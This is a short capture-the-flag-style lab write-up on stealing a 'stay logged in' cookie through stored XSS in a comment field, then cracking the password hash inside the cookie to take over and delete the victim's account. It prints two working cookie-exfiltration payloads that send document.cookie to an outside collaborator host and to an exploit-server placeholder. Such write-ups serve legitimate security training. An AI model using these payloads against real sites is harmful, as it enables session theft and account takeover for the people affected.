




In this lab, we can obtain the stay logged in cookie from an user, without knowing its password.
This cookie is base64 encoded and contains the hash of the password of the user, so we can decode it and crack the password of the user. The website is very vulnerable as it should not attach the password to the cookie.

How we obtain the stay logged in cookie? Well, it's just an XSS.

We add the comment with a XSS payload to exfiltrate `document.cookie`, which is the stay logged in cookie:
```javascript
<script> 
fetch('https://h0i6de4wth9eor4zipkzqrgek5qwen2c.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie }); 
</script>
```
We can also use the exploit server:
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`


And we get the request with the cookie:


Decode it, take the hash part and crack it:


We can now log in as the user and delete the account:

